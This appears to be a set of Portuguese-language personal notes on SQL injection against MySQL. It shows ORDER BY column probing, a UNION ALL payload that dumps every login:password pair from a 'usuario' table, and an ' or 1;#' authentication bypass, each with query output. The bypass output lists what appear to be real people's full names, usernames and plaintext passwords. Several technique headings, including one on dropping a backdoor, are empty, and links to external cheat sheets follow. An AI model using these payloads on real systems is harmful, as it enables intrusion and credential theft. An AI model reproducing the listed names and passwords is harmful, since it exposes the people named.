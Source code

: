 ## Notas sobre SQL Injection


- Extraindo dados de usuários de um banco de dados cujo a tabela de users se chama "usuario" :

		select * from usuario where id = 1 order by 18;
			ERROR 1054 (42S22): Unknown column '18' in 'order clause'

---
		select * from usuario where id = 1 order by 19;
			Empty set (0.01 sec)

---

		select * from usuario where id = 6 union all select 1,(select group_concat(login,0x3a,senha) from usuario),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19;



- Bypass na autenticação :


		mysql> select nome_usuario,login,senha from usuario where login='ADM' and senha='farsoft01';
.................
+---------------+-------+-----------+
| nome_usuario  | login | senha     |
+---------------+-------+-----------+
| ADMINISTRADOR | ADM   | FARSOFT01 |
+---------------+-------+-----------+
1 row in set (0.00 sec)

		mysql> select nome_usuario,login,senha from usuario where login='ADM' and senha='blah';#'farsoft01';
		Empty set (0.00 sec)
.................

		mysql> select nome_usuario,login,senha from usuario where login='ADM' and senha='blah'or 1;#'farsoft01';

.................
+-------------------------------------------+---------------+-----------+
| nome_usuario                              | login         | senha     |
+-------------------------------------------+---------------+-----------+
| ADMINISTRADOR                             | ADM           | FARSOFT01 |
| MAYCON DOUGLAS DA SILVA                   | MAYCON        | 123       |
| MESSIAS JOSE DA SILVA                     | MESSIAS       | 123       |
| PETER MATEUS DA SILVA                     | PETER         | 240219    |
| POLIANA LEILA DA SILVA                    | POLIANA       | 123       |
| JUSSARA PRISCILA RIBEIRO DA SILVA MARINHO | PRISCILA      | 123       |
___________________________________________________________________________
.................


- Second order Injection :
- Droppping a Backdoor :
- Conditional Select :
- Bypassing Whitespace Filtering
- SQL Injection baseada no tempo:

---

Step by Step : READ - http://breakthesecurity.cysecurity.org/2010/12/hacking-website-using-sql-injection-step-by-step-guide.html

Tips 1 : READ - http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

Tips 2 : READ - http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet